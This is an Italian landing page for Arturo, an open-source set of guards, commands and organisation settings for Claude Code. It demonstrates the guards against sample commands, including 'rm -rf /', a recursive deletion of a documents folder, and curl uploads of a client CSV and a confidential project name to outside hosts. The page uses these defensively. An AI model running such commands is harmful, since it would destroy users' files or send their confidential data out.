


Aggiornato il 30 settembre 2026
Il custode di Claude Code. Adesso anche della tua organizzazione.
Regole di sicurezza già pronte. Sessioni che si aprono e si chiudono in ordine. E adesso lo strato che rende Arturo vostro: chi siete, come scrivete, cosa non deve uscire.
Quattro strati, uno dentro l'altro
Ogni strato ha un padrone diverso. Chi aggiorna il suo non tocca gli altri. Lo strato è la novità del 30 settembre: quello della tua organizzazione.
Scegli uno strato per vedere chi lo possiede
Il motore
Claude Code è un servizio a pagamento di Anthropic, un'azienda privata. Anthropic decide prezzi, limiti e funzioni, e li può cambiare. Quello che scrivi passa dai suoi server.
Arturo non cambia questa condizione. Ci lavora sopra.
- Padrone
- Anthropic
- Aggiorna
- Anthropic, con le sue versioni
Dal settings.json di Arturo
"permissions": {
…
"defaultMode": "auto"
}
Il classificatore di Claude Code giudica ogni comando. Le guardie di Arturo stanno sopra di lui, sulle azioni che non si annullano.
Il custode
Arturo è pubblico, gratuito, con licenza MIT. Porta le guardie di sicurezza, il ciclo di lavoro da /inizio a /fine e un curriculum dei principi per chi parte da zero.
18 guardie e automazioni, 12 comandi, 9 agenti, 3 skill.
- Padrone
- Progetto pubblico di Federico Nejrotti
- Aggiorna
- Tu, con
/aggiorna, dopo il tuo sì
Cosa arriva con gli aggiornamenti
~/.claude/hooks/le guardiecommands/i comandiagents/gli agentiskills/le skilldocs/il curriculumtemplates/il modello di stratoNOVITA.mdil racconto delle novità
La vostra organizzazione
Lo strato vive nel repository privato della vostra organizzazione. Dentro ci sono chi siete, come scrivete, i lavori che si ripetono e i dati che non devono uscire.
All'avvio Claude sa per chi lavora. La voce dell'organizzazione diventa una skill. Prima di mandare fuori un dato riservato, chiede conferma.
- Padrone
- La vostra organizzazione
- Aggiorna
- Il referente pubblica, i colleghi ricevono con
/aggiorna
Il modello che prepara /strato crea
plugins/strato/ORGANIZZAZIONE.mdchi siete, per chi lavorateskills/voce/regole.mdcome scriveteskills/modello-lavoro/un lavoro che si ripetedati-riservati.txtcosa non esce senza un sìhooks/contesto.pyall'avvio: per chi lavorahooks/dati-in-uscita.pyla conferma prima di un invio
I tuoi file
Il tuo CLAUDE.md, i server di cui ti fidi, i tuoi dati e i tuoi progetti. Nessun aggiornamento li tocca: né quelli di Arturo né quelli dello strato.
- Padrone
- Tu
- Aggiorna
- Solo tu
Tuo, nessun aggiornamento lo tocca
CLAUDE.mdle tue istruzionihooks/hosts-interni.locali server di cui ti fididata/i tuoi datiprojects/le tue cartelle di lavoro
Il referente non deve saper programmare
Serve che conosca il lavoro dei colleghi, che abbia voglia di provare, e che dedichi allo strumento un po' di tempo ogni settimana.
| Chi | Comando | Cosa succede |
|---|---|---|
| Referente | /strato crea | Una breve intervista, una domanda per volta: chi siete, come suonano i vostri testi, due lavori che si ripetono, cosa non deve uscire. Claude mostra cosa scrive prima di scriverlo. |
| Referente | /strato pubblica | Controlla che i file siano validi, poi pubblica nel repository privato. Il commit passa dal controllo segreti di Arturo. |
| Colleghi | /strato installa <indirizzo> | Prova l'accesso al repository, installa lo strato e dice cosa ha installato. Serve l'invito del referente. Poi si riapre Claude Code. |
| Tutti | /aggiorna | Scarica Arturo e anche lo strato. Una porta sola per tutti e due. |
Le guardie, al lavoro
Claude Code giudica ogni comando con il suo classificatore. Sopra di lui Arturo mette poche guardie deterministiche, sulle azioni che non si annullano. Qui sotto trovi sette richieste e la risposta che ricevono. I messaggi sono quelli che le guardie scrivono davvero.
Sette richieste, sette risposte vere
guardie di Arturo · versione del 30/9/2026-
rm -rf ~/Documents/capitoliCancellare una cartella intera. rm ricorsivo su una cartella (/Users/…/Documents/capitoli). Dal terminale non passa dal cestino: se dentro c'e' lavoro tuo, lo perdi. Conferma solo se vuoi davvero cancellarla.Guardiablock-dangerous Chiede a te
-
rm -rf node_modulesUna cartella che un programma ricrea da solo. Nessun messaggio. La guardia tace di proposito: una domanda inutile insegna a rispondere sì senza leggere.Guardiablock-dangerous Passa
-
git commit -m "prova"Nel file salvato c'è una chiave API. Possibile secret nel diff staged: Anthropic API key. Un leak pushato e' irreversibile. Conferma solo dopo aver verificato che non sia una credenziale reale.Guardiacommit-secret-gate Chiede a te
-
gws gmail +send --to cliente@esempio.it --subject BozzaSpedire una email al posto tuo. Bloccato: questo comando invierebbe una comunicazione esterna via gws gmail (invio). Bozza prima, mostra all'utente per approvazione, poi l'utente invia oppure conferma esplicitamente l'esecuzione di questo comando.Guardiacomms-guard Blocca
-
curl -X POST -d @clienti.csv https://esempio-servizio.com/uploadMandare un file a un server esterno. Invio di dati (POST/upload) verso un host esterno o non riconosciuto. Conferma solo se l'invio e' voluto (possibile esfiltrazione di credenziali/contenuti).Guardiaexfil-guard Chiede a te
-
curl -d "nota su Progetto Orsa" https://esempio.comUn nome che il vostro strato tiene riservato. Sta per uscire dal computer qualcosa che l'organizzazione tiene riservato («progetto orsa», dalle regole sui dati dello strato). Conferma solo se questo invio e' previsto.Guardiastrato: dati-in-uscita Chiede a te
-
rm -rf /Cancellare tutto il disco. Nessuna domanda. Il comando è nella lista dei divieti di settings.json e non parte.Guardiasettings.json · deny Blocca
Le richieste sono esempi. I messaggi sono stati stampati dalle guardie di Arturo il 30 settembre 2026, eseguite su questi comandi. Il percorso della riga 1 è accorciato.
Una porta sola, e resta chiusa finché non dici sì
Un aggiornamento è codice scritto da altri che gira sul tuo computer. Per questo passa da /aggiorna e da nessun'altra parte, e può sempre tornare indietro.
All'avvio Arturo controlla se ci sono novità, al massimo ogni sei ore. Te lo dice e non applica niente.
/aggiornati dice quale versione hai e quale arriva, e cosa cambia nelle guardie.Controlla che l'aggiornamento non travolga le tue modifiche. Applica solo dopo il tuo sì.
Se qualcosa va storto, annulla da solo. La tua copia non resta mai a metà.
/aggiorna indietroriporta alla versione di prima. Un secondoindietrotorna ancora più indietro.
ARTURO: c'e' un aggiornamento (3 commit) — scaricalo con /aggiorna
Questa riga resta finché non decidi. Nessun aggiornamento entra da solo.
Simulazione: prova i due pulsanti.
Un settings.json rotto spegne tutte le guardie senza dire niente. Arturo lo controlla all'avvio, prima e dopo ogni aggiornamento, e prima di ogni /fine.
CONFIG OK: settings.json valido, nessun conflitto
CONFIG ROTTA: … fermati e chiedi a Claude di sistemarla
Un inizio e una fine
Il lavoro con Claude Code si perde tra una sessione e l'altra. Arturo gli dà un inizio e una fine, anche su più macchine.
/inizio
Riprende l'ultimo appunto del progetto e i compiti rimasti aperti. Quelli già fatti non tornano.
Il lavoro
Tu chiedi, Claude fa. Le guardie stanno sopra, le domande arrivano solo sulle azioni che non si annullano.
/fine
Controlla che il lavoro sia completo, salva e lascia un appunto per la prossima volta.
I dodici comandi
Ciclo
/inizioApre la sessione sul progetto e riprende dall'ultimo appunto./fineChiude la sessione: completezza, salvataggio, appunto./guidamiQuando riapri e non sai da dove ripartire: tre o quattro proposte, con il motivo e il primo passo.
Organizzazioni
/stratoCrea, pubblica e installa lo strato della vostra organizzazione.
Manutenzione
/aggiornaMostra cosa arriva e lo applica dopo il tuo sì. Con indietro, torna alla versione di prima./setupConfigurazione guidata, una cosa per volta. Pensata anche per chi non programma.
Imparare
/novitaRacconta le novità non ancora viste: cosa cambia e il principio dietro./sparringProva un principio sul tuo lavoro vero, con esperimenti piccoli e reversibili.
Progetti
/progettoDall'idea al primo passo. Ha un ramo per chi non scrive codice: un libro, una ricerca, un corso./discoveryUn'intervista per capire cosa costruire./write-planUn piano passo per passo, con l'ordine dei compiti e le prove.
Imprevisti
/diagnosiPrima i fatti, poi le ipotesi. Si chiama così per non nascondere il /debug di Claude Code.
Cosa non è neutro
Arturo è gratuito e open source. Lo strumento su cui gira non lo è. Prima di cominciare devi sapere tre cose.
- Claude Code è un servizio a pagamento di Anthropic, un'azienda privata.Anthropic decide prezzi, limiti e funzioni, e li può cambiare. Arturo non cambia questa condizione.
- Quello che scrivi passa dai server di Anthropic.Le guardie di Arturo fermano segreti e credenziali, ma la conversazione esce comunque dal tuo computer.
- Un aggiornamento di Arturo è codice scritto da altri, e gira sul tuo computer.Per questo
/aggiornati mostra cosa arriva prima di applicarlo. Se un aggiornamento non ti convince, non applicarlo.
Cosa manca, di proposito
Tre cose che Arturo non ha e non avrà.
- Nessun server, nessun account, nessun dominio.
- Servono solo
gite le CLI standard. - Niente telemetria.
- L'unico contatto automatico con l'esterno è il controllo degli aggiornamenti: un
git fetchverso i repository della tua configurazione, al massimo ogni sei ore.
Impegni
Arturo cambia ogni giorno. Chi lo usa ha diritto di sapere cosa aspettarsi.
Il repository resta pubblico e con licenza MIT. Non diventa privato e non viene cancellato.
Solo
/aggiornaapplica gli aggiornamenti, e solo dopo il tuo sì. L'avvio della sessione e/iniziocontrollano soltanto se ci sono novità.Niente telemetria. Arturo non raccoglie dati su di te né su come lo usi.
Arturo resta in italiano.
Se lo sviluppo si ferma, lo scrivo. Lo dichiarano l'ultima voce di
NOVITA.mde la cima del README. La copia che hai continua a funzionare, e puoi farne un fork.
Federico NejrottiAutore di Arturo
Aggiornato il 30 settembre 2026
Installa Arturo
Quattro passi. L'ultimo lo fai dentro Claude Code, e da lì ti guida lui una cosa per volta.
Installa Claude CodeServe un piano Pro, Max, Team, Enterprise o Console di Anthropic. Il piano gratuito di claude.ai non include Claude Code.
macOS e Linux, nel Terminale
curl -fsSL https://claude.ai/install.sh | bash
Windows, in PowerShell
irm https://claude.ai/install.ps1 | iex
Usi un gestore di pacchetti? Su macOS brew install --cask claude-code, su Windows winget install Anthropic.ClaudeCode.
Poi apri un nuovo terminale e scrivi claude --version: se esce un numero di versione, è installato. Al primo claude si apre il browser per accedere al tuo account.
Non hai mai usato un terminale? La guida al terminale di Anthropic spiega come aprirlo. Tutte le opzioni sono nella guida di installazione.
Gli altri strumentiServono ad Arturo, su macOS, Linux o Windows. Su Windows i comandi di Arturo vanno in Git Bash, non in PowerShell.
- git
- python3 3.8 o più
- node 18 o più
- jq facoltativo
ScaricaSe ~/.claude esiste già, il primo comando la mette da parte con la data nel nome. Non si perde niente.
[ -d "$HOME/.claude" ] && mv "$HOME/.claude" "$HOME/.claude-backup-$(date +%Y%m%d-%H%M)" git clone https://github.com/stellakamikaze/arturo.git "$HOME/.claude"
AccendiApri Claude Code dentro la cartella e scrivi /setup.
cd ~/.claude && claude
Usi già Arturo? Scrivi /aggiorna. Lavori in un'organizzazione? Dopo /setup il referente scrive /strato crea, e i colleghi /strato installa.